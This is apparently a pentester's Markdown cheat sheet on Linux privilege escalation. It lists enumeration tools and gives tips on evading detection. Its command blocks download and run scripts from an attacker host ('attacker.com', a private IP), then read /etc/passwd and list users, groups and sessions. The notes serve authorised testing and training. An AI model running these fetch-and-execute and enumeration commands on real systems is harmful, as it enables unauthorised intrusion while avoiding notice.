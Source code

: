 # Linux Privilege Escalation

## Things to remember
  *  Beyond searching for a privesc vector, these checks help establish awareness
  *  Always check R/W perms on interesting files
      *  [Path resolution](https://linux.die.net/man/2/path_resolution) checks permissions against all directories in a path
      *  The read permission on a directory makes it listable, the execute permission makes it traversable
  *  Look for other ways to interact with local services/service binaries... get creative!
  *  Interesting binary? No `GTFOBins` entry? Not a standard utility? Reverse!

## Useful tools
  *  [`linPEAS`](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and [`unix-privesc-check`](https://pentestmonkey.net/tools/audit/unix-privesc-check) for automated enum
  *  [`pspy`](https://github.com/DominicBreuker/pspy) for monitoring process/filesystem activity in real time
  *  [`GTFOBins`](https://gtfobins.github.io/) for abuse techniques using various binaries/programs
  *  [`linux-exploit-suggester`](https://github.com/The-Z-Labs/linux-exploit-suggester) for suggesting Linux kernel exploits

## Automation
  *  Cover a lot of ground and make a lot of noise
      *  Consider low and slow manual enumeration to avoid prying eyes

```
wget http://attacker.com/linpeas.sh && sh linpeas.sh | tee linpeas.txt
wget http://192.168.119.231/unix-privesc-check && chmod +x ./unix-privesc-check && ./unix-privesc-check standard | tee unix-privesc-check.txt
```

## Whoami
  *  Identify the newly owned user
      *  Watch for groups of interest `sudo`, `docker`, etc.

```
whoami
id
groups
```

## Users, groups, and sessions
  *  Identify target users, groups, and sessions
      *  Watch for groups of interest `lxd`, `docker`, etc.
      *  Search readable/writable files in `/home` directories  

```
cat /etc/passwd | cut -d: -f1
cat /etc/passwd | grep -vE 'nologin|false' | cut -d: -f1
ls -la /home/
for user in $(cat /etc/passwd | cut -d: -f1); do groups $user; done
for user in $(cat /etc/passwd | grep -vE 'nologin|false' | cut -d: -f1); do groups $user; done
last
who
w
```
